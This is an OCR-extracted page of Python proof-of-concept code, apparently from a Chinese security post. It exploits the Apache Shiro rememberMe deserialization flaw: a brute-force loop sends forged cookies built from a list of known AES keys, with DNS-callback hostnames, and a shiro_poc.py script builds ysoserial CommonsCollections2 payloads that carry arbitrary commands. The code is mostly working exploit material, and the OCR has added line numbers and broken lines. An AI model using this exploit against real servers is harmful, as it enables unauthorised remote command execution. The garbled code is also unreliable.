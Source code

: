 ```
      'cGljYXMAAAAAAAAAAAAAAA==',      15
      '2itfW92XazYRi5ltW0M2yA==',      15
      'XgGkgqGqYrix9lI6vxcrRw==',      15
      'ertVhmFLUs0KTA3Kprsdag==',      15
      '5AvVhmFLUS0ATA4Kprsdag==',      15
      's0KTA3mFLUprK4AvVhsdag==',      15
      'hBlzKg78ajaZuTE0VLzDDg==',      15
      '9FvVhtFLUs0KnA3Kprsdyg==',      15
      'd2ViUmVtZW1iZXJNZUtleQ==',      16
      'yNeUgSzL/CfiWw1GALg6Ag==',      16
      'NGk/3cQ6F5/UNPRh8LpMIg==',      16
      '4BvVhmFLUs0KTA3Kprsdag==',      16
      'MzVeSkYyWTI2OFVLZjRzZg==',      16
      'empodDEyMwAAAAAAAAAAAA==',      16
      'A7UzJgh1+EWj5oBFi+mSgw==',      16
      'c2hpcm9fYmF0aXMzMgAAAA==',      16
      'i45FVt72K2kLgvFrJtoZRw==',      16
      'U3BAbW5nQmxhZGUAAAAAAA==',      16
      'ZnJlc2h6Y24xMjM0NTY3OA==',      17
      'Jt3C93kMR9D5e8QzwfsiMw==',      17
      'MTIzNDU2NzgxMjM0NTY3OA==',      17
      'vXP33AonIp9bFwGl7aT7rA==',      17
      'V2hhdCBUaGUgSGVsbAAAAA==',      17
      'Z3h6eWd4enklMjElMjElMjE=',      17
      'Q01TX0JGTFlLRVlfMjAxOQ==',      17
      'ZAvph3dsQs0FSL3SDFAdag==',      17
      'Is9zJ3pzNh2cgTHB4ua3+Q==',      17
      'NsZXjXVklWPZwOfkvk6kUA==',      17
      'GAevYnznvgNCURavBhCr1w==',      18
      '66v1O8keKNV3TTcGPK1wzg==',      18
      'SDKOLKn2J1j/2BHjeZwAoQ==',      18
      'N3ghQSVEKkctSmFOZFJnVQ==']      18
      proxy = {      18
            "http": "http://127.0.0.1:8000",      18
            "https": "https://127.0.0.1:8000",      18
      }      18
      data = '{"domain":"","locale":"en","username":"asdasd","password":"asdsad"}'      18
      for key in keylist:      18
            print("http://"+key.replace('==','').replace('/','')+'.'+sys.argv[2])      19
            cookie = encode_rememberme("http://"+key.replace('==','').replace('/','')+'.'+sys.argv[2],key)      19
            cookies['rememberMe'] = cookie      19
            requests.get(sys.argv[1],headers=headers, cookies=cookies,verify=False,timeout=15)
```




以下是shiro\_poc.py文件的内容 



```
import sys      
import base64      
import uuid      
from random import Random      
import subprocess      
from Crypto.Cipher import AES       
def encode_rememberme(command):      
    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'CommonsCollections2', command], stdout=sub      1
process.PIPE)      1
    BS   = AES.block_size      1
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()      1
    key  =  "kPH+bIxk5D2deZiIxcaaaA=="      1
```